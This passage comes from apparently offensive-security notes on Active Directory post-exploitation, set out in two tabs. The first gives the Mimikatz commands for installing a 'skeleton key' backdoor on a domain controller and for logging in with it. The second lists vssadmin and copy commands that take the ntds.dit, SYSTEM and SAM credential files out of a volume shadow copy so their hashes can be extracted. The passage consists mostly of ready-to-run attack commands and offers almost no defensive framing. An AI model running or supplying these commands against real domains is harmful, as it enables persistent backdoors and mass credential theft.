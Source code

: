 {% tab title="Skeleton Key" %}
* [http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis](http://www.secureworks.com/cyber-threat-intelligence/threats/skeleton-key-malware-analysis)
* Back door a privileged AD account with Mimikatz
* To install the skeleton key
  * \>mimikatz.exe “privilege::debug” “misc::skeleton” exit
* Use
  * \>net use \* \\\dc\c$ mimikatz /user:lab@attacker.domain
  * [https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/active\_directory\_privilege\_escalation/credential\_extraction/)
{% endtab %}

{% tab title="Vol. Shadow Copy" %}


Once you have Domain Admin access, the old way to pull all hashes from the DC was to run commands on the domain controller and user Shadow volume or Raw copy to pull the ntds.dit file

* _RTFM: Volume Shadow Copy - pg.21_
* Volume Shadow Copy technique (old)
  * NTDS.dit file is constantly being locked as in use by the OS.
  * We can use Volume Shadow Copy to make an copy of it we can extract hashes from
    * C:\vssadmin create shadow /for=C:
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\ntds\ntds.dit
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\system32\config\SYSTEM
    * copy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy\[DISK\_NUMBER]\windows\system32\config\SAM
    * reg SAVE HKLM\SYSTEM c:\SYS
    * vssadmin delete shadows /for=\[/oldest | /all | /shadow=]
* ALT
  * Volume Shadow Copy
    * \#vssadmin list shadows
      * \#set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
      * \#for /R %VSHADOW\_DEVICE%\ %i in (\*) do @echo %i
      * &#x20;[https://blogs.msdn.microsoft.com/adioltean/2004/12/14/creating-shadow-copies-from-the-command-line/](https://blogs.msdn.microsoft.com/adioltean/2004/12/14/creating-shadow-copies-from-the-command-line/)
* Listing shadow copy contents. This is tricky since the shadow copies are not regular (standalone) volumes. These are pseudo-volume devices, without a drive letter or volume name, in the form \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyNNN. You can still access their contents from the command line, if you know how. For example, copying a file from the shadow copy can be done this way:
  * dir > c:\somefile.txt
  * &#x20;vssadmin create shadow /for=c:
  * &#x20;vssadmin list shadows
  * &#x20;(get the shadow copy device, let's say that this is \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12)
  * &#x20;set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
  * &#x20;copy %VSHADOW\_DEVICE%\somefile.txt c:\somefile\_bak.txt
* To enumerate all files on a shadow copy device we will use the "for /R" command. Note that we used %i and not %%i so the command below will not work properly in a CMD batch file:
  * dir > c:\somefile.txt
  * vssadmin create shadow /for=c:
  * vssadmin list shadows
  * (get the shadow copy device, let's say that this is \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12)
  * set VSHADOW\_DEVICE=\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy12
  * for /R• %VSHADOW\_DEVICE%\ %i in (\*) do @echo %i
{% endtab %}
